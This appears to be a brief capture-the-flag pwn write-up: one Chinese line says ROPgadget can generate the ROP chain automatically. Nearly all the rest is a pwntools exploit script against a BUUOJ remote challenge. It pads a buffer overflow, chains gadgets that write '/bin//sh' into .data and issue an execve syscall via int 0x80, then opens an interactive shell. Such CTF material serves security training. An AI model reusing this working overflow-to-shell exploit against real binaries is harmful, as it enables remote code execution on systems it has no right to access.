 `ROPgadget --binary pwn --ropchain`直接可以生成rop链，把溢出填充好就直接用就行

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#r = process('./pwn')
r = remote('node5.buuoj.cn',29636)
def dbg():
    gdb.attach(r)
    pause()

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b'a'*0xC+b'b'*0x4

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80

r.sendline(p)
r.interactive()
```
